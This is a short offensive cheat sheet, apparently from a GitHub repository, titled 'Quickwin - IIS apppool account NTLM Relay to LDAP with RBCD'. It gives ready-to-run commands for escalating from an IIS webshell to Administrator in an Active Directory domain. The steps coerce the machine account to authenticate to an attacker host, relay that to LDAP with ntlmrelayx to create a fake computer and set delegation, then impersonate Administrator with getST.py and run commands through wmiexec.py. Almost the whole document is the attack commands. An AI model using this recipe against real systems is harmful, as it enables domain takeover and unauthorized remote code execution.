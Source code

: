 # Quickwin - IIS apppool account NTLM Relay to LDAP with RBCD

## Intro

Privilege escalation IIS apppool webshell to Admin

## HTTP coerce of the machine account

```shell
powershell -iwr http://<ip_attack> -UseDefaultCredentials
responder -I <interface> -v
```

### NTLM Relay to LDAP for RBCD (ou Shadow credentials)

```shell
ntlmrelayx -t ldap://<dc_ip> -smb2support --interactive
nc 127.0.0.1 11000
# starttls
# add_computer fakePC P@ssword123
# set_rbcd <target_rbcd> fakePC$ 
```

### Profit :)

```shell
getsT.py -spn cifs/<target_rbcd>.example.com -impersonate Administrator -dc-ip <dc_ip/fqdn> 'example.com/fakePC$:P@ssword123'
export KRB5CCNAME=Administrator@cifs_<target_rbcd>.example.com.ccache
wmiexec.py -k -no-pass @<target_rbcd>.example.com
```

## Sources
- https://x.com/M4yFly/status/1745581076846690811


